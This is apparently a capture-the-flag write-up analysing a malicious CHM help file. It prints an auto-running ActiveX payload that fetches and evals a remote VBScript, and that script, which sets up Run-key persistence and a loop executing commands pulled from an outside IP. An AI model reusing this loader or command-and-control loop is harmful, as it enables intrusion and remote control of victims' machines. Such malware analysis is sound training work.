 # CHM

> **Challenge Description:** Help me with this Windows Help file. Our anti-virus has detected this file as a malware. Seriously, it's just a Windows Help file. Analyze and find the flag.
>
> **Flag Format:** `ihack{MD5}`

### Solution

CHM files can be opened and extracted using `hh.exe` in Windows for legitimate use. In this case, extract all the components from the CHM file using `7z`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ 7z e chm.chm 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz (906EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10781 bytes (11 KiB)

Extracting archive: chm.chm
--
Path = chm.chm
Type = Chm
Physical Size = 10781

Would you like to replace the existing file:
  Path:     ./Property
  Size:     4 bytes (1 KiB)
  Modified: 2022-12-01 00:52:05
with the file from archive:
  Path:     $WWAssociativeLinks/Property
  Size:     4 bytes (1 KiB)
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? u

Everything is Ok                     

Folders: 2
Files: 12
Size:       11892
Compressed: 10781
```

The extracted `version.html` contains a embedded payload that references a `.vbs` file from a remote URL.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ cat version.html                                               
<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c copy /Y C:\Windows\system32\rundll32.exe %TEMP%\out.exe > nul && %TEMP%\out.exe javascript:"\..\mshtml RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://139.59.122.20/version.vbs",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im out.exe",0,true);}'>
        <PARAM name="Item2" value="273,1,1">
      </OBJECT>
      <SCRIPT>
        x.Click();
      </SCRIPT> 
</body>
</html>  
```

Continue analyzing `version.vbs` and notice that `version.txt` is fetched remotely.

```
Option Explicit
On Error Resume Next
Const tail = "7866c99c63a26b4886"
Const test = "122.20/"
Set oFileSystem = CreateObject("Scripting.FileSystemObject")
Set WshShell = CreateObject("WScript.Shell")
Const close = "}"
Const versionfile = "version.txt"
app_data = WshShell.ExpandEnvironmentStrings("%APPDATA%")
full_install = app_data & "\ihack.vbs"
If Not oFileSystem.FileExists(full_install) Then
        oFileSystem.CopyFile WScript.ScriptFullName, full_install
        WshShell.RegWrite "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update", full_install, "REG_SZ"
        Set rs_map = oFileSystem.GetFile(full_install)
        rs_map.Attributes = 2
End If
Const server = "http://139.59." & test & versionfile
done = False
Do Until done
        Set XMLHTTP = CreateObject("MSXML2.XMLHTTP.3.0")
        XMLHTTP.open "GET", server, False
        XMLHTTP.send
        command = XMLHTTP.responseText
        WshShell.Run "cmd /c " & command, 0, True
        MsgBox("Your computer has been compromised by iHack team. You can exit this msgbox in your Task Manager.")
        If InStr(command, "iha") Then
                dim sec = command & tail & close
        Else InStr(command, "EXIT") Then
                done = True
        End If
        If InStr(command, "REMOVE") Then
                WshShell.RegDelete "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update"
                Set delete_me = oFileSystem.CreateTextFile(oFileSystem.GetSpecialFolder(2) & "\romcs.bat")
                delete_me.WriteLine("@echo off")
                delete_me.WriteLine("timeout 10")
                delete_me.Close()
                WshShell.Run oFileSystem.GetSpecialFolder(2) & "\romcs.bat"
                done = True
        Else
                WshShell.Run "cmd /c " & command, 0, True
        End If
        WScript.Sleep(15000)
Loop
```

**Flag:** `ihack{}`
